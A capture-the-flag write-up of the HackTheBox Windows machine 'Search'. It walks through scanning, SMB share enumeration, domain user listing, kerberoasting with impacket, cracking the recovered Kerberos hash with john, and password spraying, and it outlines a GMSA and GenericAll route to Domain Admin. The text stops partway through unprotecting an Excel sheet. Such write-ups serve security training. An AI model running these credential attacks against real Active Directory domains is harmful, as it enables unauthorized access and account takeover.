# Search - HackTheBox - Writeup
Windows, 40 Base Points, Hard



## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```53```, ```80```, ```443``` etc.

***User***: Found ```slide_5.jpg``` with the password of the user ```Hope.Sharp```, Using that we found SPN of ```web_svc``` user, The cracked password of ```web_svc``` is the same password of ```Edgar.Jacobs``` user, By enumerating on ```Edgar.Jacobs``` we found Excel called ```Phishing_Attempt.xlsx``` with protected sheet, Removing the protected sheet and we get the password of ```Sierra.Frye``` and we get the user flag.

***Root***: We have two methods, Method 1: Running python bloodhound, found ```ReadGMSAPassword ``` permission to ```BIR-ADFS-GMSA$``` user, ```BIR-ADFS-GMSA``` user with ```Generic All``` permission to user ```Tristan.Davies``` which is member of Domain Admins, Using ```Generic All``` permission we reset the password of ```Tristan.Davies``` user and we get the root flag.




## Search Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ nmap -sV -sC -oA nmap/Search 10.10.11.129
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-06 23:37 IDT
Nmap scan report for 10.10.11.129
Host is up (0.15s latency).
Not shown: 989 filtered ports
PORT    STATE SERVICE       VERSION
53/tcp  open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Search &mdash; Just Testing IIS
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-06 20:37:23Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2022-04-06T20:40:25+00:00; 0s from scanner time.
443/tcp open  ssl/http      Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Search &mdash; Just Testing IIS
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2022-04-06T20:40:24+00:00; -1s from scanner time.
| tls-alpn: 
|_  http/1.1
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2022-04-06T20:40:24+00:00; -1s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/6%Time=624DFA08%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-04-06T20:39:49
|_  start_date: N/A


```

Let's scan also for all ports:
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ nmap -p- -sV -Pn 10.10.11.129
Nmap scan report for search.htb (10.10.11.129)
Host is up (0.12s latency).
Not shown: 65516 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-12 18:25:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
8172/tcp  open  ssl/http      Microsoft IIS httpd 10.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
49718/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/12%Time=6255C403%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

```

By observing port 80 we get the following web page:


By running ```gobuster``` we get:
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $  gobuster dir -u http://search.htb/ -w /hackthebox/Search/raft-medium-words.txt -t 100 -k  -
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://search.htb/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /hackthebox/Search/raft-medium-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/29 02:41:36 Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 144] [--> http://search.htb/js/]
/css                  (Status: 301) [Size: 145] [--> http://search.htb/css/]
/images               (Status: 301) [Size: 148] [--> http://search.htb/images/]
/Images               (Status: 301) [Size: 148] [--> http://search.htb/Images/]
/.                    (Status: 200) [Size: 44982]                              
/fonts                (Status: 301) [Size: 147] [--> http://search.htb/fonts/] 
/CSS                  (Status: 301) [Size: 145] [--> http://search.htb/CSS/]   
/staff                (Status: 403) [Size: 1233]                               
/JS                   (Status: 301) [Size: 144] [--> http://search.htb/JS/]    
/Css                  (Status: 301) [Size: 145] [--> http://search.htb/Css/]   
/Js                   (Status: 301) [Size: 144] [--> http://search.htb/Js/]    
/IMAGES               (Status: 301) [Size: 148] [--> http://search.htb/IMAGES/]
/Staff                (Status: 403) [Size: 1233]                               
/Fonts                (Status: 301) [Size: 147] [--> http://search.htb/Fonts/] 
/certsrv              (Status: 401) [Size: 1293]                               
/STAFF                (Status: 403) [Size: 1233]                               
                                                                               
===============================================================
2022/04/29 02:42:54 Finished
===============================================================

```

By observing the source code of the web page we can see the following image links:
```console
...
<div class="owl-carousel slide-one-item-alt">
 
 
 
 
</div>
...


...
```

As we can see, we have a type of pattern to the image's names.

By observing [http://search.htb/images/slide_2.jpg](http://search.htb/images/slide_2.jpg) we can see the following image:


And by enumerating we found a new picture [http://search.htb/images/slide_5.jpg](http://search.htb/images/slide_5.jpg)


According to ```slide_5``` we need to pay attention to the notes on ```slide_2```, As we can see we have possible a user name ```Hope Sharp``` and password ```IsolationIsKey?```.

Let's try to use ```SMB``` with the credentials ```Hope.Sharp:IsolationIsKey?``` (We just guess the pattern of the user name):
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ smbclient -L search.htb -U Hope.Sharp
Enter WORKGROUP\Hope.Sharp's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	CertEnroll      Disk      Active Directory Certificate Services share
	helpdesk        Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	RedirectedFolders$ Disk      
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

And we successfully get the list of the shares.

By observing ```CertEnroll``` share we get the following:
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ smbclient \\\\search.htb\\CertEnroll -U Hope.Sharp
Enter WORKGROUP\Hope.Sharp's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  Dc        0  Tue Apr 12 21:02:25 2022
  ..                                 Dc        0  Tue Apr 12 21:02:25 2022
  nsrev_search-RESEARCH-CA.asp       Ac      330  Tue Apr  7 10:29:31 2020
  Research.search.htb_search-RESEARCH-CA.crt     Ac      883  Tue Apr  7 10:29:29 2020
  search-RESEARCH-CA+.crl            Ac      735  Tue Apr 12 21:02:25 2022
  search-RESEARCH-CA.crl             Ac     1047  Tue Apr 12 21:02:25 2022

		3246079 blocks of size 4096. 281434 blocks available
smb: \>
```

And by enumerating ```RedirectedFolders$``` we get:
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ smbclient \\\\search.htb\\RedirectedFolders$ -U Hope.Sharp
Enter WORKGROUP\Hope.Sharp's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  Dc        0  Tue Aug 11 14:39:13 2020
  ..                                 Dc        0  Tue Aug 11 14:39:13 2020
  abril.suarez                       Dc        0  Tue Apr  7 21:12:58 2020
  Angie.Duffy                        Dc        0  Fri Jul 31 16:11:32 2020
  Antony.Russo                       Dc        0  Fri Jul 31 15:35:32 2020
  belen.compton                      Dc        0  Tue Apr  7 21:32:31 2020
  Cameron.Melendez                   Dc        0  Fri Jul 31 15:37:36 2020
  chanel.bell                        Dc        0  Tue Apr  7 21:15:09 2020
  Claudia.Pugh                       Dc        0  Fri Jul 31 16:09:08 2020
  Cortez.Hickman                     Dc        0  Fri Jul 31 15:02:04 2020
  dax.santiago                       Dc        0  Tue Apr  7 21:20:08 2020
  Eddie.Stevens                      Dc        0  Fri Jul 31 14:55:34 2020
  edgar.jacobs                       Dc        0  Thu Apr  9 23:04:11 2020
  Edith.Walls                        Dc        0  Fri Jul 31 15:39:50 2020
  eve.galvan                         Dc        0  Tue Apr  7 21:23:13 2020
  frederick.cuevas                   Dc        0  Tue Apr  7 21:29:22 2020
  hope.sharp                         Dc        0  Thu Apr  9 17:34:41 2020
  jayla.roberts                      Dc        0  Tue Apr  7 21:07:00 2020
  Jordan.Gregory                     Dc        0  Fri Jul 31 16:01:06 2020
  payton.harmon                      Dc        0  Thu Apr  9 23:11:39 2020
  Reginald.Morton                    Dc        0  Fri Jul 31 14:44:32 2020
  santino.benjamin                   Dc        0  Tue Apr  7 21:10:25 2020
  Savanah.Velazquez                  Dc        0  Fri Jul 31 15:21:42 2020
  sierra.frye                        Dc        0  Thu Nov 18 03:01:46 2021
  trace.ryan                         Dc        0  Thu Apr  9 23:14:26 2020

		3246079 blocks of size 4096. 281434 blocks available
smb: \>
```

We have permission to ```hope.sharp``` and to ```sierra.frye```:
```console
smb: \> cd sierra.frye\
smb: \sierra.frye\> dir
  .                                  Dc        0  Thu Nov 18 03:01:46 2021
  ..                                 Dc        0  Thu Nov 18 03:01:46 2021
  Desktop                           DRc        0  Thu Nov 18 03:08:00 2021
  Documents                         DRc        0  Fri Jul 31 17:42:19 2020
  Downloads                         DRc        0  Fri Jul 31 17:45:36 2020
  user.txt                           Ac       33  Thu Nov 18 02:55:27 2021

		3246079 blocks of size 4096. 281378 blocks available
```

We dont have permission to read the ```user.txt``` file (also not from ```Desktop``` directory).

Let's get all the user names using ```rpcclient``` with ```Hope.Sharp:IsolationIsKey?```:
```console
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[Santino.Benjamin] rid:[0x4aa]
user:[Payton.Harmon] rid:[0x4ab]
user:[Trace.Ryan] rid:[0x4ac]
user:[Reginald.Morton] rid:[0x4ad]
user:[Eddie.Stevens] rid:[0x4ae]
user:[Cortez.Hickman] rid:[0x4af]
user:[Chace.Oneill] rid:[0x4b0]
user:[Abril.Suarez] rid:[0x4b1]
user:[Savanah.Velazquez] rid:[0x4b2]
user:[Antony.Russo] rid:[0x4b3]
user:[Cameron.Melendez] rid:[0x4b4]
user:[Edith.Walls] rid:[0x4b5]
user:[Lane.Wu] rid:[0x4b6]
user:[Arielle.Schultz] rid:[0x4b7]
user:[Bobby.Wolf] rid:[0x4b8]
user:[Blaine.Zavala] rid:[0x4b9]
user:[Margaret.Robinson] rid:[0x4ba]
user:[Celia.Moreno] rid:[0x4bb]
user:[Kaitlynn.Lee] rid:[0x4bc]
user:[Kyler.Arias] rid:[0x4bd]
user:[Saniyah.Roy] rid:[0x4be]
user:[Sarai.Boone] rid:[0x4bf]
user:[Jermaine.Franco] rid:[0x4c0]
user:[Alfred.Chan] rid:[0x4c1]
user:[Jamar.Holt] rid:[0x4c2]
user:[Sandra.Wolfe] rid:[0x4c3]
user:[Rene.Larson] rid:[0x4c4]
user:[Yareli.Mcintyre] rid:[0x4c5]
user:[Griffin.Maddox] rid:[0x4c6]
user:[Prince.Hobbs] rid:[0x4c7]
user:[Armando.Nash] rid:[0x4c8]
user:[Sonia.Schneider] rid:[0x4c9]
user:[Maeve.Mann] rid:[0x4ca]
user:[Lizeth.Love] rid:[0x4cb]
user:[Amare.Serrano] rid:[0x4cc]
user:[Savanah.Knox] rid:[0x4cd]
user:[Frederick.Cuevas] rid:[0x4ce]
user:[Marshall.Skinner] rid:[0x4cf]
user:[Edgar.Jacobs] rid:[0x4d0]
user:[Elisha.Watts] rid:[0x4d1]
user:[Belen.Compton] rid:[0x4d2]
user:[Amari.Mora] rid:[0x4d3]
user:[Cadence.Conner] rid:[0x4d4]
user:[Katelynn.Costa] rid:[0x4d5]
user:[Sage.Henson] rid:[0x4d6]
user:[Maren.Guzman] rid:[0x4d7]
user:[Natasha.Mayer] rid:[0x4d8]
user:[Chanel.Bell] rid:[0x4d9]
user:[Scarlett.Parks] rid:[0x4da]
user:[Eliezer.Jordan] rid:[0x4db]
user:[Dax.Santiago] rid:[0x4dc]
user:[Lillie.Saunders] rid:[0x4dd]
user:[Jayla.Roberts] rid:[0x4de]
user:[Lorelei.Huang] rid:[0x4df]
user:[Taniya.Hardy] rid:[0x4e0]
user:[Charlee.Wilkinson] rid:[0x4e1]
user:[Monique.Moreno] rid:[0x4e2]
user:[Desmond.Bonilla] rid:[0x4e3]
user:[Claudia.Sharp] rid:[0x4e4]
user:[Abbigail.Turner] rid:[0x4e5]
user:[Yaritza.Riddle] rid:[0x4e6]
user:[Tori.Mora] rid:[0x4e7]
user:[Hugo.Forbes] rid:[0x4e8]
user:[Jolie.Lee] rid:[0x4e9]
user:[German.Rice] rid:[0x4ea]
user:[Zain.Hopkins] rid:[0x4eb]
user:[Hope.Sharp] rid:[0x4ec]
user:[Kylee.Davila] rid:[0x4ed]
user:[Melanie.Santiago] rid:[0x4ee]
user:[Hunter.Kirby] rid:[0x4ef]
user:[Annabelle.Wells] rid:[0x4f0]
user:[Ada.Gillespie] rid:[0x4f1]
user:[Gunnar.Callahan] rid:[0x4f2]
user:[Aarav.Fry] rid:[0x4f3]
user:[Colby.Russell] rid:[0x4f4]
user:[Eve.Galvan] rid:[0x4f5]
user:[Jeramiah.Fritz] rid:[0x4f6]
user:[Cade.Austin] rid:[0x4f7]
user:[Keely.Lyons] rid:[0x4f8]
user:[Abby.Gonzalez] rid:[0x4f9]
user:[Joy.Costa] rid:[0x4fa]
user:[Vincent.Sutton] rid:[0x4fb]
user:[Cesar.Yang] rid:[0x4fc]
user:[Camren.Luna] rid:[0x4fd]
user:[Tyshawn.Peck] rid:[0x4fe]
user:[Keith.Hester] rid:[0x4ff]
user:[Braeden.Rasmussen] rid:[0x500]
user:[Angel.Atkinson] rid:[0x501]
user:[Sierra.Frye] rid:[0x502]
user:[Maci.Graves] rid:[0x503]
user:[Judah.Frye] rid:[0x504]
user:[Tristen.Christian] rid:[0x505]
user:[Crystal.Greer] rid:[0x506]
user:[Kayley.Ferguson] rid:[0x507]
user:[Haven.Summers] rid:[0x508]
user:[Isabela.Estrada] rid:[0x509]
user:[Kaylin.Bird] rid:[0x50a]
user:[Angie.Duffy] rid:[0x50b]
user:[Claudia.Pugh] rid:[0x50c]
user:[Jordan.Gregory] rid:[0x50d]
user:[web_svc] rid:[0x510]
user:[Tristan.Davies] rid:[0x512]
```

Let's "clean" it and write the users to file:
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ cat users
Administrator
Guest
krbtgt
Santino.Benjamin
Payton.Harmon
Trace.Ryan
Reginald.Morton
Eddie.Stevens
Cortez.Hickman
Chace.Oneill
Abril.Suarez
Savanah.Velazquez
Antony.Russo
Cameron.Melendez
Edith.Walls
Lane.Wu
Arielle.Schultz
Bobby.Wolf
Blaine.Zavala
Margaret.Robinson
Celia.Moreno
Kaitlynn.Lee
Kyler.Arias
Saniyah.Roy
Sarai.Boone
Jermaine.Franco
Alfred.Chan
Jamar.Holt
Sandra.Wolfe
Rene.Larson
Yareli.Mcintyre
Griffin.Maddox
Prince.Hobbs
Armando.Nash
Sonia.Schneider
Maeve.Mann
Lizeth.Love
Amare.Serrano
Savanah.Knox
Frederick.Cuevas
Marshall.Skinner
Edgar.Jacobs
Elisha.Watts
Belen.Compton
Amari.Mora
Cadence.Conner
Katelynn.Costa
Sage.Henson
Maren.Guzman
Natasha.Mayer
Chanel.Bell
Scarlett.Parks
Eliezer.Jordan
Dax.Santiago
Lillie.Saunders
Jayla.Roberts
Lorelei.Huang
Taniya.Hardy
Charlee.Wilkinson
Monique.Moreno
Desmond.Bonilla
Claudia.Sharp
Abbigail.Turner
Yaritza.Riddle
Tori.Mora
Hugo.Forbes
Jolie.Lee
German.Rice
Zain.Hopkins
Hope.Sharp
Kylee.Davila
Melanie.Santiago
Hunter.Kirby
Annabelle.Wells
Ada.Gillespie
Gunnar.Callahan
Aarav.Fry
Colby.Russell
Eve.Galvan
Jeramiah.Fritz
Cade.Austin
Keely.Lyons
Abby.Gonzalez
Joy.Costa
Vincent.Sutton
Cesar.Yang
Camren.Luna
Tyshawn.Peck
Keith.Hester
Braeden.Rasmussen
Angel.Atkinson
Sierra.Frye
Maci.Graves
Judah.Frye
Tristen.Christian
Crystal.Greer
Kayley.Ferguson
Haven.Summers
Isabela.Estrada
Kaylin.Bird
Angie.Duffy
Claudia.Pugh
Jordan.Gregory
web_svc
Tristan.Davies
```

Now we have the users, Let's try [kerberoasting](https://www.qomplx.com/qomplx-knowledge-kerberoasting-attacks-explained/) using [impacket GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py):
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ for user in $(cat /fdriver/Desktop/hackthebox/Search/username-anarchy/gen_users); do python3 GetUserSPNs.py search.htb/$user:IsolationIsKey? -outputfile ../../Search/spnout ; done
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation
...
[-] Error in bindRequest -> invalidCredentials: 8009030C: LdapErr: DSID-0C0906B5, comment: AcceptSecurityContext error, data 52e, v4563
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

ServicePrincipalName               Name     MemberOf  PasswordLastSet             LastLogon  Delegation 
---------------------------------  -------  --------  --------------------------  ---------  ----------
RESEARCH/web_svc.search.htb:60001  web_svc            2020-04-09 15:59:11.329031  <never>               


Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[-] Error in bindRequest -> invalidCredentials: 8009030C: LdapErr: DSID-0C0906B5, comment: AcceptSecurityContext error, data 52e, v4563
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation
...
```

We found the SPN of ```web_svc``` user, Let's print the output to see the TGS:
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ cat spnout
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$9c6cfd2b95586cce0008030464df1035$68db7e020cdc2844ad8f27d99012bf2800808f07618c3382c4be7b44712941b89072e0e9b2561c356e9a8fab906f3ffc955a89d823c947048debb014515dcd8a98482a0936050f1d65e7d5d4176da342dab3a3b51f5fa62f26aee11ff7aba766896dbb20deca1ae46ca67bd175fea9504d01e5926168d04a36632dc373c4748e158e281bd64020b7abfa25fe3f21f59b00c1c3b13cf301d197f05413f1a3655d8f193c92ec51aecbe233dffe44fbeb27bda8073235eb51564bb7928ad8ee5cd42be2e31274717c20a0a56aea8ec1cf4ebf088352dde0fccdf1bb2f1f75b877676878b4bdaaf0000f66f07eacc8739a96daee814d982993551eb44263162405291fc4faba903441e6ebde81098cc1db74b584e5f667b9692b18e326b85e1fa80fc54f3986599251aa7d18e308064db5b1c5339b283615482cb2eab3629bfeacd499736125dff34fa0041dc00a1e155a5c0f301adf6ca3b5d261419c2448fcbabc8c0f33ece277ddb064ca7d92e850b26ff00b16e9ea1e1881749fe316e01b26b6facfab65ffb69d2910384718fa32cfd0db0347685ea585f02decdcf85c1f48c0c8d976b2e2573071b7eca73eb51107e1edbd5768d70c497c66f294db6d6e3d1847a5cd987dc747a1433d78eae73073dbfee7cd47674dc78b92f6d6cbe66ffd81b260c8834246875aae9732f08dedc610735fc60661c60d519bb398b085ec6ed3761c38b14dec0efbc58d6621e0f81dd264f8fd3882df1d80567374bfc2b6679ef05c1522e8d5bf5ab4fafaeb9988af904bb8a1f4dc61e7702a354656c052d93810f12b735fb16ec75df0a2a1272a7349903a3c6978aad5bd3b8a667abcbaf93d3fcbc69bea25ffcbb75dfdf1df5b38cc39fb4b51056ecf84269c83a9f8ba4e238285a286c834215475aecf1d68cb43525233b3edc6bda103dccd6e9a45bf433b09172075a6d1cc169aff6e3c20dd5fd137b9c5ee4918748c2a3e670ca55da78a9bd99e8a677933bb00f58a9d71e2831c02f77fa385b3a1a3b912864ae002cf4532ba5a5f94c0f7304292e650c4e05693ef9124873c576d444e5aeeeb62f62ee9bc0413e7109374ab10690919b0a971849555f23a9d8b5dae5f8fdb2ec8746606b1a16c26a2994e1a138ccb9a9fa5d0d7657a6c4c14498d1d4a1708fd9f7d394c7babd45c66f2e85a94d42155314c88971ea9be477ab9972a6e8fe19e7dbaa22d6d08720d52a5856a8bca9086b37174af57fb78f4157a0c385d0a05ff78eac796f1f29da891b0c5aba2cc7a7cce8770e0959dc47d800f5cdaa8e7401ecee8aa2117826416b091c8f5bee2c29963ba82af34ef4184b59e12d0695ce2de1968b8e9f1317f25a41e8b339e66188533b5e4e4b5ee6aec5db807db6c5c080248e1b4ac81979cce3c5bd7c702d25c07bcb212ea4426b19638d22ad4d1afe9b775969eb8cf03916c4f6414208545824e81c28b398404155fa0
```

We can crack it using ```john```:
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt spnout 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
@3ONEmillionbaby (?)
1g 0:00:00:07 DONE (2022-04-28 23:57) 0.1328g/s 1525Kp/s 1525Kc/s 1525KC/s @4208891ncv..@#alexandra$&
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And we get the credentials ```web_svc:@3ONEmillionbaby```.

By using password spray we found this is the same password of ```Edgar.Jacobs``` user, Let's connect to SMB to ```RedirectedFolders$```:
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ smbclient \\\\search.htb\\RedirectedFolders$ -U Edgar.Jacobs
Enter SEARCH.HTB\Edgar.Jacobs's password: 
Try "help" to get a list of possible commands.
smb: \> cd Edgar.Jacobs
smb: \Edgar.Jacobs\> cd desktop
smb: \Edgar.Jacobs\desktop\> dir
  .                                 DRc        0  Mon Aug 10 13:02:16 2020
  ..                                DRc        0  Mon Aug 10 13:02:16 2020
  $RECYCLE.BIN                     DHSc        0  Thu Apr  9 23:05:29 2020
  desktop.ini                      AHSc      282  Mon Aug 10 13:02:16 2020
  Microsoft Edge.lnk                 Ac     1450  Thu Apr  9 23:05:03 2020
  Phishing_Attempt.xlsx              Ac    23130  Mon Aug 10 13:35:44 2020

		3246079 blocks of size 4096. 519035 blocks available
smb: \Edgar.Jacobs\desktop\> 
```

Let's get the file ```Phishing_Attempt.xlsx```:



We can see we have a hidden column (C), That's because this sheet is protected, Let's unprotect it.

Change the extention of the file to ```zip``` and open it, Next navigate to ```xl/worksheets/sheet2.xml```:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
